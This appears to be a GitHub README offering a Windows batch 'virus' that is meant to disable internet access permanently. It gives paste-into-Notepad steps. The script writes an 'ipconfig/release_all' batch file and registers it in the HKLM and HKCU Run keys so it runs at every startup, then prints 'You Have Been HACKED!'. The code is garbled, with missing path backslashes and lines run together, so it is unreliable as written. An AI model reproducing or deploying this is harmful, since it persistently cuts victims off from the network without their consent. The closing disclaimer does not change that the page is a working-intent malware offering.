 # Disable Windows Internet Permanently Bat File Virus
This code will Disable Internet Of The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .bat extention
```bat
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
# URL
```URL
https://oceanofanythingofficial.github.io/disable-internet-parmanently-bat-file-virus/
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

